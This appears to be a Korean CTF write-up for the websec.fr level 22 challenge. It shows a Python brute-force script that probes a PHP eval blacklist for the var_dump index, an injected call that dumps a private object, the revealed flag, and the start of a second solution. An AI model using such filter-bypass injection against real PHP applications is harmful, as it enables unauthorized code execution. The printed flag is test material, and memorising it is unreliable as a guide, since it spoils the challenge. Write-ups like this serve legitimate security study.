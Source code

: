 문자열 및 echo 출력
: <a href="https://study-zone.tistory.com/41?category=232432" target="_blank">study-zone.tistory.com/41?category=232432</a>
: echo 에서 ```" "``` 안에서는 파싱을 하지만 ```' '``` 안에서는 특수문자, 변수 값을 파싱하지 않아 그대로 출력한다.

<br>

```python
import requests

url='https://websec.fr/level22/index.php'
headers={'Content-Type':'application/x-www-form-urlencoded'}
cookies={'session':'[redacted]'}

for i in range(0,10000):
	  payload={'code':'$blacklist{'+str(i)+'}'}
	  res=requests.get(url, headers=headers, cookies=cookies, params=payload)
	  if "var_dump" in res.text:
		    print(i)  # 582
		    break
```

<br>

$blacklist{582}에 var_dump 값이 있으므로 함수처럼 사용해서 ```$blacklist{582}($a)```라 입력하면 ```echo var_dump($a)```가 되므로 객체 $a의 값에 대한 정보를 출력해준다.

<br>

```php
object(A)#1 (3) {
  ["pub"]=>
  string(17) "WEBSEC{But_I_was_"
  ["pro":protected]=>
  string(18) "told_that_OOP_was_"
  ["pri":"A":private]=>
  string(22) "flawless_and_stuff_:<}"
}
```

<br>

+ Flag : ```WEBSEC{But_I_was_told_that_OOP_was_flawless_and_stuff_:<}```

<br>

풀이를 보니 다른 방법도 있다...!

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution 2
<hr style="border-top: 1px solid;"><br>

처음에 주어진 객체 변수 ```$a```를 출력하고자 하였으나 아래와 같은 에러가 떴다.
: ```Recoverable fatal error:  Object of class A could not be converted to string in /index.php(92) : eval()'d code on line 1```
